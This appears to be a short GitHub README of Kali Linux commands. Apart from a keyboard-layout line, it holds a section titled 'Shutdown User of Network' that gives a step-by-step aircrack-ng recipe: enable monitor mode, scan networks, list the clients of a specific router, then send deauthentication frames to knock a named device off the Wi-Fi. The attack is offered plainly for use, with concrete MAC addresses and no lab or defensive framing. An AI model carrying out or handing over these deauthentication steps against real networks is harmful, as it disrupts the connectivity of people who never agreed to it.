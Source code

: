 # kali-commands

---

**Others Commands:** 

setxkbmap -model abnt2 -layout br _This command set the layout keyboard for brazilian._
   
---

**Wireless**

***Shutdown User of Network***

   -``ifconfig`` - _for see name of the internet, like Ether or Wlan_   
   
   -`root@localhost:~# airmon-ng start wlan0 ` _This example init airmon for monitoring_
   
   -`root@localhost:~# airodump-ng wlan0mon` _this init the screen of networks_  
   
   `-root@localhost:~# airodump-ng --bssid 58:D5:6E:6C:2F:8C --channel 10 wlan0mon` _Here initialize process of see all users in network_
   
   -`root@localhost:~# aireplay-ng -0 100 -a 58:D5:6E:6C:2F:8C -c 48:49:C7:FD:F3:1E wlan0mon` _this init the attach._
   
   -`root@localhost:~# airmon-ng stop wlan0mon` _This stop monitoring mod_

refs: --bssid or -a is Mac Adress of Router and -c is Mac of device connected.


